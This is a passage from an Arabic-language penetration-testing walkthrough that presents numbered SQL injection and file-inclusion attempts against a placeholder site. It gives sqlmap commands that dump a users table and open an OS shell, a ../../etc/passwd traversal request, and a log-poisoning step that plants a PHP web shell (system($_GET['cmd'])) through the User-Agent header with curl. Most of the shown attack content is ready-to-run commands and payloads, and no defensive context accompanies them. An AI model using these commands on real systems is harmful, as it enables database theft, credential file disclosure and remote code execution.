 ### 📌 النتيجة:
- الوصول إلى بيانات مباشرة إنترنت ما كانت محمية.

---

## 🧪 المحاولة #3: استخدام sqlmap لأتمتة الكشف والاستغلال

### ⚙️ الفكرة:
أداة `sqlmap` تكتشف تلقائيًا إذا كان هناك ثغرة SQL Injection، وتُخبّرنا بالبيانات التالية:

- نوع قاعدة البيانات.
- اسم المستخدم الحالي.
- صلاحيات المستخدم.
- الجداول والحقول المتاحة.

### ✔️ كيف تستخدم:
```bash
sqlmap -u "https://target.com/page?id=1" --dbs
```

### 💥 الاستغلال:
- سحب بيانات المستخدمين:
```bash
sqlmap -u "https://target.com/page?id=1" -D dbname -T users --dump
```

- كتابة Webshell:
```bash
sqlmap -u "https://target.com/page?id=1" --os-shell
```

### 📌 النتيجة:
- الوصول الكامل إلى قاعدة البيانات، أو حتى تنفيذ تعليمات عن بعد.

---

## 🧪 المحاولة #4: البحث عن ثغرة File Inclusion (LFI/RFI)

### ⚙️ الفكرة:
بعض التطبيقات تسمح بتضمين ملفات خارجية أو داخلية، مما يسمح لك بقراءة بيانات حساسة.

### ✔️ كيف تكتشف:
```http
GET /page.php?page=../../etc/passwd HTTP/1.1
```

### 💥 الاستغلال:
- قراءة ملفات السجل:
```
/var/log/apache/access.log
```
- إدخال payload عبر User-Agent:
```bash
curl -A "<?php system($_GET['cmd']); ?>" http://target.com/
```
